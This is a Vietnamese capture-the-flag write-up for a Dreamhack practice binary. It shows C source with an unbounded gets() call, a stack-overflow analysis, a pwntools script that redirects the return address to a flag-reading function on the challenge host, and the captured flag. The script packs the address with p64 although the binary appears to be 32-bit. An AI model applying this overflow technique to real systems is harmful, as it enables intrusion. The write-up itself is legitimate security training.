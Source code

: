 **1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}
```

Hàm read_flag(), nó sử dụng hàm system() để thực thi lệnh cat /flag, có nghĩa là in ra nội dung của tệp /flag. Vì hàm này sẽ được gọi khi chương trình chạy, nó sẽ in ra nội dung của tệp /flag mà không cần xác thực người dùng.

Hàm main() là hàm chính của chương trình. Nó định nghĩa một mảng buf với kích thước 0x80 (hoặc 128 byte). Sau đó, nó gọi hàm initialize() để cấu hình chương trình.

Sau đó, chương trình sử dụng hàm gets() để nhận input từ người dùng. Ở hàm gets không giới hạn ghi bao nhiêu byte -> Có lỗi bof

**2. Ý tưởng**

Ghi byte rác từ biến buf đến ret rồi đưa địa chỉ hàm ```read_flag()``` vào để in ra flag.

**3. Khai thác**

```
   0x080485d7 <+11>:    lea    eax,[ebp-0x80]
   0x080485da <+14>:    push   eax
   0x080485db <+15>:    call   0x80483d0 <gets@plt>
```

Khoảng cách từ biến buf đến ebp là 0x80. Vậy khoảng cách từ biến buf đến ret là 0x80 + 0x4.

Vậy tạo 0x80 + 0x4 byte rác để ghi từ buf đến ret rồi sử dụng ```exe.sym['read_flag']``` để ghi địa chỉ hàm ```read_flag``` vào ret

```
payload = b'a'*(0x80 + 0x4)
payload += p64(exe.sym['read_flag'])
```

Đặt breakpoint ở ret để kiểm tra có trả về hàm ```read_flag``` không.

![read.png](photo/read.png)

Vậy chương trình đã return về hàm ```read_flag```

Ta có script như sau:

```
from pwn import *

exe = ELF('basic_exploitation_001')
#r = process(exe.path)
r = remote('host3.dreamhack.games', 15853)

payload = b'a'*(0x80 + 0x4)
payload += p64(exe.sym['read_flag'])
#input()
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

```Flag: DH{01ec06f5e1466e44f86a79444a7cd116}```
